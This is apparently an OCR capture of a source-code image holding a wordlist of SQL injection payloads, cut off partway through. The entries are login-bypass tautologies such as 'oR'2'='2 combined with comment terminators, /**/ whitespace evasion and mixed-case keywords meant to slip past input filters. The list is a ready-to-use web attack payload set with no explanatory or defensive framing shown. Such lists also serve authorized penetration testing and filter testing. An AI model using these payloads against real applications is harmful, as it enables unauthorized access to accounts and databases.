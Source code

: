                 "oR 2 oR"
                "oR/**/2-- 2
                "oR/**/2#
                "oR/**/2/*
                "oR/**/2/**/oR"
                'oR'2'='2
                'oR'2'='2'oR'
                'oR'2'='2'-- 2
                'oR'2'='2'#
                'oR'2'='2'/*
                'oR 2=2-- 2
                'oR 2=2#
                'oR 2=2/*
                'oR 2=2 oR'
                'oR/**/2=2-- 2
                'oR/**/2=2#
                'oR/**/2=2/*
                'oR/**/2=2/**/oR'
                'oR(2)=2-- 2
                'oR(2)=2#
                'oR(2)=2/*
                'oR(2)=(2)oR'
                'oR'2'='2' LimIT 1-- 2
                'oR'2'='2' LimIT 1#
                'oR'2'='2' LimIT 1/*
                'oR(2)=(2)LimIT(1)-- 2
                'oR(2)=(2)LimIT(1)#
                'oR(2)=(2)LimIT(1)/*
                "oR"2"="2
                "oR"2"="2"oR"
                "oR"2"="2"-- 2
                "oR"2"="2"#
                "oR"2"="2"/*
                "oR 2=2-- 2
                "oR 2=2#
                "oR 2=2/*
                "oR 2=2 oR"
                "oR/**/2=2-- 2
                "oR/**/2=2#
                "oR/**/2=2/*
                "oR/**/2=2/**/oR"
                "oR(2)=2-- 2
                "oR(2)=2#
                "oR(2)=2/*
                "oR(2)=(2)oR"
                "oR"2"="2" LimIT 1-- 2
                "oR"2"="2" LimIT 1#
                "oR"2"="2" LimIT 1/*
                "oR(2)=(2)LimIT(1)-- 2
                "oR(2)=(2)LimIT(1)#
                "oR(2)=(2)LimIT(1)/*
                'oR true-- 2
                'oR true#
                'oR true/*
                'oR true oR'
                'oR(true)-- 2
                'oR(true)#
                'oR(true)/*
                'oR(true)oR'
                'oR/**/true-- 2
                'oR/**/true#
                'oR/**/true/*
                'oR/**/true/**/oR'
                "oR true-- 2